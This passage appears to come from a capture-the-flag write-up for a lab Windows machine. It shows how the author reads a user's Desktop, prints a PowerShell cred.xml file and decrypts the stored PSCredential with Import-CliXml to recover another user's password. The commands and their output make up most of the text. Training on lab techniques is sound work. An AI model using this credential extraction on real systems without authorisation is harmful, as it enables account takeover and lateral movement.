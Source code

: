 # Shell as `tom`

### Enumeration

On `nico`'s Desktop, there's another file besides flag.

```bash
C:\Users\nico\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\nico\Desktop

28/05/2018  20:07    <DIR>          .
28/05/2018  20:07    <DIR>          ..
27/10/2017  23:59             1,468 cred.xml
27/12/2024  19:27                34 user.txt
               2 File(s)          1,502 bytes
               2 Dir(s)   4,877,672,448 bytes free
```

Given the file name `cred`, it's expected to have some critical information.

```xml
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

There's another user `tom` whose credential is saved in this file.

### Crack PSCredential

Since this credential is encrypted as PSCredential, I can decrypt it through Powershell.

```bash
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```
